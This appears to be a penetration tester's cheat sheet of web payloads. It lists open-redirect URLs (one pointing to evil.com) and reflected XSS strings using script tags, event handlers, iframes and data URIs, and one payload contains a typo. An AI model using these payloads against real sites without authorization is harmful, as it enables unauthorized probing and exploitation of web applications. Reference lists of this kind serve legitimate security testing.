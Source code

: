 # Open redirect

- __`https://test.com/?redirect=https://www.google.com`__
- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`/?name=">test123`__
- __`/?name=">test123<script>alert(1)</script>`__
- __`/?name=">test123<script>alert(1);//</script>`__
- __`/?name=">test123<image src=x onerror=alert()>`__
- __`/?name=">test123<image src=x onmouseover=alert()>`__
- __`/?name=">test123<image src=x onmouseover=document.write(1)>`__
- __`/?name=javascript:alert()` or `/?name=<a href=javascript:alert(1)>test123`__
- __`/?name=<iframe src=javascript:alert(1)>`__
- __`/?name=<object data="data:text/html,<script>alert(1)</script>"></object>`__
- __`/?name=<object data="data:text/javascript,<h1>test123"></object>`__
- __`/?name=<script src=data:text/javascript,alert(1337)></script>`__
- __`/?name="><h1><u/onmouseover=alert(1)>test123`__

#### for "input" tag
- __`/?name=test123" onmouseover=aler(1);//`__

#### for <textarea>
- __`/?name=test123</textarea><img/src=x onerror=alert(2)>`__


#### for </title>
- __`/?name=test123</title><img/src=x onerror=alert(2)>`__


- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)
